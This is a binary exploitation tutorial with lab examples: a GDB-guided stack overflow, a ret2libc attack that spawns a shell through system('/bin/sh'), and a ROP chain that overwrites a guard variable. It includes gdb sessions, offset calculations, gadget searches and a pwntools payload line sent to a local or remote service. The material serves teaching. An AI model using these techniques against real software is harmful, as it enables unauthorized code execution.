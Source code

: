 Binary Exploitation Tutorial
============================

Examples
--------

### GDB

* Path: `gdb/`
* Goal: perform an overflow to set the value of the `authenticated` variable to `1337` and make the application print the success message.

You can play the recording of the session by typing

	asciinema play gdb_example.cast

The video is also available [on-line](https://asciinema.org/a/oqIa5fgeeQWGiP9zyBQSisX6e).

### Ret2Libc

* Path: `ret2libc/`
* Goal: use a re2libc attack to call `system("/bin/sh")` by exploiting the overflow vulnerability in the `echo` function.

Find the address of the variable `binsh`:

	$ objdump -D ropme | grep binsh
	0804a020 <binsh>:

Find the address of `system()`:

	$ gdb ropme
	(gdb) b main
	Breakpoint 1 at 0x80484b5
		
	(gdb) r
	Starting program: /home/marco/rop/ropme

	Breakpoint 1, 0x080484b5 in main ()
		
	(gdb) p system
	$1 = {<text variable, no debug info>} 0x2a8d3200 <system>

Now we must find the length of our payload and where to place the return address of the next function to call (`system`) and the parameter


	(gdb) b *0x08048486
	Breakpoint 2 at 0x8048486

	(gdb) c
	Continuing.
	AAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAA

	Breakpoint 2, 0x08048486 in echo ()

	(gdb) x/40wx $esp
	0xffffd650:     0x2aa6e000      0x2aa6e000      0x00000000      0x41414141
	0xffffd660:     0x41414141      0x41414141      0x41414141      0x08048500
	0xffffd670:     0x00000001      0x00000000      0xffffd688      0x080484ac
	0xffffd680:     0x2aa929b0      0xffffd6a0      0x00000000      0x2a8aee81
	0xffffd690:     0x2aa6e000      0x2aa6e000      0x00000000      0x2a8aee81
	0xffffd6a0:     0x00000001      0xffffd734      0xffffd73c      0xffffd6c4
	0xffffd6b0:     0x00000001      0x00000000      0x2aa6e000      0x2aa9275a
	0xffffd6c0:     0x2aaaa000      0x00000000      0x2aa6e000      0x00000000
	0xffffd6d0:     0x00000000      0x3be2084a      0xd193cfe0      0x00000000
	0xffffd6e0:     0x00000000      0x00000000      0x00000001      0x08048340

	(gdb) info frame
	Stack level 0, frame at 0xffffd680:
	 eip = 0x8048486 in echo; saved eip = 0x80484ac
	 called by frame at 0xffffd6a0
	 Arglist at 0xffffd678, args:
	 Locals at 0xffffd678, Previous frame's sp is 0xffffd680
	 Saved registers:
	  ebx at 0xffffd674, ebp at 0xffffd678, eip at 0xffffd67c

	(gdb) p 0xffffd67c - (0xffffd660 - 4)
	$2 = 32


We now build the payload, see `exploit.py`

	marco@testbed:~/rop$ ./exploit.py ./ropme
	[+] Starting local process './ropme': pid 22214
	[*] Switching to interactive mode
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	$ id
	uid=1502(marco) gid=1503(marco) groups=1503(marco)

Pwntools is very handy because it allows to interact with remote programs as if they were local ones just be changing a single line in the script.

	marco@testbed:~/rop$ git diff exploit.py exploit_r.py
	diff --git a/exploit.py b/exploit_r.py
	index 94ff3a5..1a7bc89 100755
	--- a/exploit.py
	+++ b/exploit_r.py
	@@ -7,7 +7,7 @@ def main():
	     binsh = p32(0x0804a020)
	     system = p32(0xf7e26200)

	-    p = process(sys.argv[1])
	+    p = remote('127.0.0.1', 31337)
	     p.sendline('A'*32 + system + 'B'*4 + binsh)
	     p.interactive()


### ROP

* Path: `rop/`
* Goal: build a rop-chain to change the value of the `guard` into `0xb000000f` and continue with the execution of the program to make it print the success message.

Our simple ROP example requires to write an arbitrary value on a variable that is out of the stack. First we need to get the base address of the library when it's loaded:

	$ cat /proc/24240/maps
	f7de9000-f7fbe000 r-xp 00000000 fc:01 1807762                            /lib/i386-linux-gnu/libc-2.27.so

So our base address is `0xf7de9000`.

Now we look for a gadget that allows to write the content of a register into the address pointed by another register, like a `mov dword ptr [edx], eax`:

	$ ROPgadget --binary  /lib/i386-linux-gnu/libc-2.27.so > libcgadgets.txt
	$ grep -E 'mov dword ptr \[e.x\], e.x' libcgadgets.txt
	...
	0x00075425 : mov dword ptr [edx], eax ; ret
	...

Now we need to set something into these two registers, so we'd like to have some pops:

	0x00001aae : pop edx ; ret
	0x00024b5e : pop eax ; ret

And we should also figure out where our variable `guard` is:

	marco@testbed:~/rop_w$ objdump -D ropmew | grep guard
	0804a020 <guard>

And where the function should return:

	   0x08048498 <+26>:    call   0x8048456 <readstuff>
	   0x0804849d <+31>:    mov    eax,DWORD PTR [ebx+0x20]

One last step... the application expects to fetch the content of the `guard` from `ebx+0x20`. After the attack, we might have changed the value of `ebx`, so we must leverage another gadget to reset its value to the intended one. If we don't do this, the application might try to access an unreadable area of memory

	=> 0x0804849d <+31>:    mov    eax,DWORD PTR [ebx+0x20]
   	0x080484a3 <+37>:    cmp    eax,0xb000000f

As we can see, since `eax` should contain the value of the `guard`, the proper value of `ebx` must be the location of the guard - `0x20`... the gadget we need is a `pop ebx; ret`:

	0x00018be5 : pop ebx ; ret

Now we write and execute the payload, see attack.py!

Tricks
------

### GDB

Provide some input systematically to the stdin of an application that is being debugged:

	(gdb) r < <(python -c 'print("A"*19)')

### Misc

Print the list of security features enabled for a certain binary

	$ checksec ./binary
